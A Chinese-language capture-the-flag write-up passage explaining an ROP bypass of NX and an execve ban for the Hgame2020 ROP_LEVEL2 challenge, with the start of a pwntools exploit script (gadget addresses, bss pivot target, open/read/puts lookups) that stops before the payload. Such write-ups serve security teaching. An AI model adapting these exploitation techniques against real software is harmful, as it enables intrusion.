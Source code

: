 

### ROP绕过

#### 原理

对于开启NX保护的题目，无法执行shellcode，需要通过ROP来调用orw的三个函数

#### 例题 Hgame2020 ROP_LEVEL2

题目没开启PIE，主要逻辑是禁用execve后向bss段写入数据，后面还有一个输入可以溢出0x10字节

思路是向bss段写入调用orw三个函数的rop链后栈迁移到bss段上，调用read的时候由于要控制三个参数需要利用ret2csu的方法

exp：

```python
#!/usr/bin/python3

from pwn import *
import sys
context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='ROP'
e=ELF("./"+binary_name)

if local:
    p=process("./"+binary_name)
else:
    p=remote('', )



def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))
        
leave=0x40090d
pop_rsi=0x400a41
pop_rdi=0x400a43
pop6 = 0x00400a3a
mov3 = 0x00400a20
o=e.plt['open']
r=e.plt['read']
w=e.plt['puts']
bss=0x6010a0
to_r=bss+208
```